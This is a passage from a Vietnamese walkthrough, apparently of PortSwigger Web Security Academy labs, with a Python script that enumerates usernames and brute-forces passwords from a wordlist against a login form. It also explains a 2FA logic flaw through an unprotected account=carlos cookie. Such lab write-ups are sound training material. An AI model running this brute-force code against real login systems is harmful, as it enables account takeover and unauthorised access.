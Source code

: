 ```python=
        response = requests.post(url, data=data)

        if 'too many incorrect login' in response.text:
            usernameValid = username
            print(username)
            break
    if usernameValid != '':
        break
#Step 2:
passwords = open('./password.txt', 'r').read().splitlines()
passwordValid = ''
for password in tqdm(passwords):
    data = {
        'username': usernameValid,
        'password': password
    }

    response = requests.post(url, data=data)
    if 'Invalid username or password' in response.text or 'too many incorrect login' in response.text:
        passwordValid = password
        continue
    else:
        print(passwordValid)
        break
```

![image](https://hackmd.io/_uploads/B1nI-jeqp.png)

mình được tài khoản là ==app:monkey== và đăng nhập và giải quyết được bài lab

## 8. Lab: 2FA broken logic

link: https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-broken-logic

### Đề bài

![image](https://hackmd.io/_uploads/rygubAgqp.png)

### Phân tích

- Giá trị cookie tương ứng đặt cho người dùng carlos là account=carlos: đây là một cookie không an toàn vì nó trực tiếp sử dụng tên đăng nhập làm giá trị cookie mà không qua bước mã hóa nào. Sau đó, khi người dùng hoàn thành xong bước xác thực 2FA, hệ thống sử dụng chính cookie này để xác định danh tính người dùng:

```
POST /login-steps/second HTTP/1.1
Host: vulnerable-website.com
Cookie: account=carlos
...
verification-code=123456
```
